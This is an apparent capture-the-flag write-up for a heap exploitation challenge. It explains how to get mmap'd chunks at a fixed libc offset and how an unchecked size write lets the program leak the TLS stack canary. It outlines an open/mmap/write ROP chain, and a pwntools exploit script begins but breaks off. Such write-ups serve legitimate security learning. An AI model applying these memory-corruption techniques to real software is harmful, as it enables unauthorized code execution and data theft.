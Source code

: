 ## MMap Note

We can allocate some chunks of size 0x1000.

If we allocate sufficient chunks, we will expend our heap memory and cause our chunk to be mmaped. This allows us to get a chunk that is placed at a constant offset to our libc in memory.

If you analyze the code that writes to the chunk

```c
__int64 write_0()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  printf("idx = ");
  __isoc99_scanf("%d", &v1);
  if ( v1 < dword_404590 )
  {
    printf("size to write = ");
    __isoc99_scanf("%d", &sizes[v1]);
    if ( sizes[v1] <= 4096 )
    {
      read(0, (void *)chunk[v1], sizes[v1]);
      return 1LL;
    }
    else
    {
      puts("too much");
      return 0LL;
    }
  }
  else
  {
    puts("invalid idx");
    return 0LL;
  }
}
```

We are allowed to read a size that is larger than 0x1000 into the global **sizes** array.

By using the output option, we can print more than 0x1000 bytes from our memory. This also allows us to leak the canary from the **Thread Local Storage (TLS)** which is stored on the same memory page.

Subsequently, we can use our buffer overflow in the main function `read(0, buf, 0x640uLL);` to write a `open -> mmap -> write` rop chain that maps the flag file to memory and write it to stdout.

```python
from pwn import *

idx = -1;

def create():
    global idx
    idx += 1
    p.sendlineafter(b"> ", b"1")
    p.recvuntil(b"is ")
    addr = int(p.recvline(), 16)
    print(f"{idx} - {hex(addr)}")
    return idx, addr

def write(idx, size, data=None):
    p.sendlineafter(b"> ", b"2")
```